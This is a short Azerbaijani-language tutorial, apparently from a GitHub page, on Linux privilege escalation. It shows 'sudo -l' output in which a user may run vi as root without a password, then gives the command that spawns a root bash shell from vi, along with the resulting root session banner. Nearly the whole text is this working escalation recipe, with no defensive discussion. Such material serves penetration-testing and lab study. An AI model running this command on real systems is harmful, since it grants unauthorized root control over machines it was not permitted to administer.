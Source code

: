 ## Sudo -l 

bu kimi, müəyyən əmrləri root parolu olmadan kök istifadəçi kimi işlədə bildiyinizi görəcəksiniz. Bu, imtiyazları artırmağa imkan verə bilər.


Sudo -l verilende eger bunu gorursense:
-------
 user8@polobox:~$ sudo -l
  matching defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

 user user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:~$ 
-------

bunu yaz:
# sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

ve bele gorsenecek

user8@polobox:~$ sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

Welcome to Linux Lite 4.4 root
 
Monday 22 January 2024, 07:58:24
Memory Usage: 348/1991MB (17.48%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
